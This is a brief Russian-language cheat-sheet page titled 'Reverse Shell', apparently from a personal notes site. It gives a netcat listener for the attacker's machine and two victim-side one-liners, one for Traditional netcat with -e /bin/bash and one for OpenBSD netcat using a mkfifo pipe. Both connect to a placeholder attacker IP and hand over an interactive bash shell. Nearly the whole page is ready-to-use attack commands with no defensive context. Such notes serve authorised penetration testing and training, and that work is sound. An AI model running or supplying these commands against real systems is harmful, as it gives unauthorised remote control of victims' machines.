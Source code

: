 ```yaml
---
title: Reverse Shell
description: Используя Traditional и OpenBSD Netcat
date: 2022-12-09T15:02:00+05:00
tags: [linux, ssh, hack]
---
```

## Машина атакующего
```
nc -lvp <port>
```
## Машина жертвы (Traditional Netcat)
```
nc <attacker-ip> <port> -e /bin/bash
```

## Машина жертвы (OpenBSD Netcat)
```
mkfifo /tmp/rev; nc <attacker-ip> <port> < /tmp/rev \
	| /bin/bash 2>&1 | tee /tmp/rev > /dev/null
```
